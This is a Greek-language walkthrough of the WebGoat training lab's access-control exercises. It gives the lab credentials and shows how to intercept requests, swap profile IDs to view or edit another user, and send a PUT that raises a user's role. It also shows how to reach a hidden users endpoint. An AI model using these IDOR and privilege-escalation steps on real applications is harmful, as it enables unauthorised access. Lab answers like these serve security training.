 
# Αδυναμίες Ελέγχου Πρόσβασης

## Μη Ασφαλείς Άμεσες Αναφορές Αντικειμένων (Insecure Direct Object References) #1
Συνδέσου με τα διαπιστευτήρια tom/cat, όπως έχει δοθεί.

## Μη Ασφαλείς Άμεσες Αναφορές Αντικειμένων #2
Υπέκλεψε το HTTP αίτημα με εργαλεία όπως τα Wireshark ή Fiddler, και διάβασε το σώμα της απάντησης:
```json
{
  "role": 3,
  "color": "yellow",
  "size": "small",
  "name": "Tom Cat",
  "userId": "2342384"
}
```
Τα πεδία που δεν εμφανίζονταν στην αρχική προβολή είναι τα `role` και `userId`.

## Μη Ασφαλείς Άμεσες Αναφορές Αντικειμένων #3
Η διαδρομή (REST path) προς το προφίλ είναι `/WebGoat/IDOR/profile/2342384`, όπως φαίνεται μετά από υποκλοπή των HTTP αιτήσεων.

## Μη Ασφαλείς Άμεσες Αναφορές Αντικειμένων #4
**Προβολή Άλλου Προφίλ:** Υπέκλεψε το GET αίτημα με το εργαλείο ZAP, και τροποποίησε το path `/profile/userId` σε `/profile/2342388` ώστε να εμφανιστεί το προφίλ άλλου χρήστη.

**Επεξεργασία Άλλου Προφίλ:** Υπέκλεψε το αίτημα και τροποποίησέ το ως εξής:

PUT /WebGoat/IDOR/profile/2342388  
Content-Type: application/json
```json
{
  "role": 1,
  "color": "red",
  "size": "large",
  "name": "Buffalo Bill",
  "userId": 2342388
}
```

## Έλλειψη Ελέγχου Πρόσβασης σε Επίπεδο Λειτουργίας (Missing Function Level Access Control) #1
Οι διαθέσιμες επιλογές είναι `Users` και `Config`, όπως βρέθηκαν σε τμήμα του HTML που περιβάλλεται από class `hidden*` (δεν προσδιορίστηκε η ακριβής class, αλλά δεν είναι απαραίτητο).

![Εικόνα UI με κρυφές επιλογές](./Img/function_level_access_control_1.png)

* Επιλογές που είναι κρυμμένες στο περιβάλλον χρήστη.

## Έλλειψη Ελέγχου Πρόσβασης σε Επίπεδο Λειτουργίας #2
Στείλε ένα GET αίτημα στο `/WebGoat/users` με `Content-Type` ορισμένο σε `application/json`. Θα λάβεις την εξής απάντηση:
```json
[
    {
        "username": "johndoe",
        "admin": false,
        "userHash": "bOsZfbase64z804CSVl1vp5BR/RXybAAbEr5+X4lWQ8="
    }
]
```

